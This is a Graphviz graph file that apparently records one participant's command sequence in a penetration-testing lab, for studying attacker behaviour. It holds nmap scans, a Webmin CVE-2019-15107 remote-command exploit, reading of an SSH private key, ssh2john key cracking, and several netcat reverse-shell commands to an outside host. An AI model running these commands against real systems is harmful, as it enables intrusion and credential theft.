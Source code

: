 // creating graph for user: 85
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	3 [label="ls A10 "]
	4 [label="nmap A0 A1 "]
	6 [label="nmap 192.168.128.0 A0 A1 "]
	7 [label="nmap 192.168.128.0/24 A0 A1 "]
	9 [label="nmap 10.1.135.0/24 A0 A1 "]
	10 [label="nmap 10.1.135.0/ A0 A1 "]
	11 [label="nmap 10.1.135.0/16 A0 A1 "]
	13 [label="nmap 172.18.1.5 A0 M0 A1 "]
	14 [label="nmap -sV 172.18.1.5 A1 M1 "]
	15 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 A10 "]
	16 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	18 [label="ls A10 "]
	20 [label="ls A10 "]
	21 [label="python CVE_2019_15107.py A13 "]
	22 [label="cat README.md A1 A9 A11 A12 A17 "]
	23 [label="python CVE_2019_15107.py https://172.18.1.5:10000 A13 "]
	24 [label="python CVE_2019_15107.py https://172.18.1.5:10000 id A13 "]
	25 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	26 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	27 [label="ls /root A10 "]
	28 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ A10 A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; pwd A10 A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; pwd A13 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls -al A10 A13 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ pwd; A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls -al /root/; A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls'; A10 A13 "]
	39 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls -al'; A10 A13 "]
	40 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; pwd'; A13 "]
	41 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'ls'; A10 A13 "]
	42 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd'; A13 "]
	43 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd' A13 "]
	44 [label="python CVE_2019_15107.py http://172.18.1.5:10000 /bin/bash -c 'echo anal' A13 "]
	45 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	46 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root A13 "]
	47 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & ls A10 A13 "]
	48 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	49 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & echo hello A13 "]
	50 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ & echo hello' A13 "]
	51 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && echo hello' A13 "]
	52 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	53 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ && pwd A13 "]
	54 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat /root/flag A1 A9 A11 A12 A13 A17 "]
	55 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	56 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	57 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	58 [label="python CVE_2019_15107.py http://172.18.1.5:10000 touch file A13 "]
	59 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ > file A10 A13 "]
	60 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat file A1 A9 A11 A12 A13 A17 "]
	61 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	62 [label="ls A10 "]
	63 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	64 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	65 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' A9 M9 A11 A12 A13 A17 "]
	66 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find *.txt' A10 A13 "]
	67 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	68 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/; pwd' A13 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root; pwd' A13 "]
	70 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	71 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	72 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alive' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/alice' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/bob' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/eve' A10 M10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' V10 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' A12 M12 A13 A16 A17 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' V10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' V12 "]
	80 [label="ls A10 "]
	81 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	82 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian' A10 A13 "]
	83 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian' A10 A13 "]
	84 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible' A10 A13 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible/tmp' A10 A13 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /root' A10 A13 "]
	88 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / *.txt' A10 A13 "]
	89 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / -name *.txt' V10 "]
	90 [label="ls A10 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home' A10 A13 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'pwd' A13 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	100 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	101 [label="ls A10 "]
	103 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	104 [label="ls A10 "]
	106 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	114 [label="ls A10 "]
	115 [label="python ssh2john.py A13 M13 A14 A16 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
